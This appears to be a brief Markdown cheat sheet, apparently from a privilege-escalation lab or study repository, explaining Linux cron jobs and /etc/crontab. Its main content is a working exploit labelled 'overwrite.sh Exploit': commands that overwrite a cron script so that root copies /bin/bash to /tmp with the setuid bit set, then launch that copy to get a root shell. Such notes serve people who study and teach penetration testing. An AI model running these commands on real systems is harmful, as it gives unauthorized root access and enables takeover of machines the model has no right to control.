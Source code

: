 

   ### Cron jobs are programs or scripts which users can schedule to run at specific times or intervals. 
   ### Cron table files (crontabs) store the configuration for cron jobs. 
   ### The system-wide crontab is located at /etc/crontab.
    
          cat /etc/crontab
          locate overwrite.sh
          
          
   ## overwrite.sh Exploit
   
         echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' > /home/user/overwrite.sh
         chmod +x /home/user/overwrite.sh
         /tmp/bash -p
